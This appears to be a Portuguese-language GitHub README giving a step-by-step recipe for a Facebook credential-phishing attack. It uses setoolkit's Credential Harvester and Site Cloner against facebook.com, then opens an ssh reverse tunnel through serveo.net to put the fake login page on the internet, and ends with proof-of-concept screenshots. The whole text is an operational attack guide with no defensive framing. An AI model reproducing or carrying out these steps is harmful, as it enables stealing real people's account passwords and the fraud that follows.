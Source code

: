 # Subindo um phishing para captura de senhas do Facebook na internet

### Ferramentas

- Kali Linux
- setoolkit
- ssh

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Configurando o ssh
- ssh -R 80:localhost:80 serveo.net

### Resutados

![Alt text](./poc1.jpg "Optional title")

![Alt text](./poc-2.jpg "Optional title")

![Alt text](./poc-4.jpg "Optional title")

![Alt text](./poc-3.jpg "Optional title")
